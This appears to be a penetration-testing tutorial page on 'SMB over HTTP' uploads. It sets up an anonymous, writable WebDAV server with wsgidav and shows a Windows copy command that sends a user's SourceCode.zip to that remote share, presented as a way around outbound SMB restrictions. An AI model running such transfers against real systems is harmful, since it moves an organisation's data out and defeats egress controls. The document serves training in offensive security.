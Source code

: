 # SMB over HTTP Upload

Commonly enterprises don't allow the SMB protocol (**TCP/445**) out of their internal network because this can open them up to potential attacks. An alternative is to run SMB over HTTP with **WebDav**. WebDAV (RFC 4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other.

The WebDAV protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS. When using SMB, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP.

## WebDav Server Setup

To set up a WebDav server, install two Python modules: wsgidav and **cheroot**. After installing them, run the wsgidav application in the target directory.

#### Install WebDav Python Modules

```shell
clue@machine[/]$ sudo pip3 install wsgidav cheroot

[sudo] password for plaintext: 
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     |████████████████████████████████| 171 kB 1.4 MB/s
     ...SNIP...
```

#### Using the WebDav Python Module

```shell
clue@machine[/]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

[sudo] password for plaintext: 
Running without configuration file.
10:02:53.949 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
10:02:53.950 - INFO    : WsgiDAV/4.0.1 Python/3.9.2 Linux-5.15.0-15parrot1-amd64-x86_64-with-glibc2.31
10:02:53.950 - INFO    : Lock manager:      LockManager(LockStorageDict)
10:02:53.950 - INFO    : Property manager:  None
10:02:53.950 - INFO    : Domain controller: SimpleDomainController()
10:02:53.950 - INFO    : Registered DAV providers by route:
10:02:53.950 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/local/lib/python3.9/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
10:02:53.950 - INFO    :   - '/': FilesystemProvider for path '/tmp' (Read-Write) (anonymous)
10:02:53.950 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
10:02:53.950 - WARNING : Share '/' will allow anonymous write access.
10:02:53.950 - WARNING : Share '/:dir_browser' will allow anonymous read access.
10:02:54.194 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.6.0 Python 3.9.2
10:02:54.194 - INFO    : Serving on http://0.0.0.0:80 ...
```

## Connecting to the Webdav Share

Now we can attempt to connect to the share using the **DavWWWRoot** directory.

Windows file transfer example:

```powershell
C:\> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

| Note                                                                                                                                                                                                                                                           |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server. |
| You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder                                                                                                    |

## SMB File Transfer

```powershell
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

| Note                                                                                                                          |
| ----------------------------------------------------------------------------------------------------------------------------- |
| If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations. |
